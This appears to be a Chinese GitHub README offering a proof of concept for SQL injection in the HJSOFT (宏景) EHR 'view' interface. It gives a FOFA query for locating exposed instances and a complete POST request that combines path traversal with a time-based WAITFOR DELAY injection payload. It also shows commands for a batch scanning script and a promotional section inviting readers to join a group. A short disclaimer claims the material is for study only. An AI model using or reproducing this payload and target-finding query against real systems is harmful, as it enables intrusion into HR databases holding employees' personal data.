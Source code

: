 # 宏景EHR view接口sql注入漏洞POC

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa：app="HJSOFT-HCM"


POST /templates/attestation/../../general/info/view HTTP/1.1
Host: xxxx
Content-Type: application/x-www-form-urlencoded

kind=1&a0100=11';WAITFOR+DELAY+'0:0:5'--

批量poc(记得安装库)

python poc.py -u 

python poc.py -f  .txt

结果保存至result.txt



## 入圈（限时体验）

![image-20240127122138808](assets/image-20240127122138808.png)

![image-20240121123620660](assets/image-20240121123620660.png)s

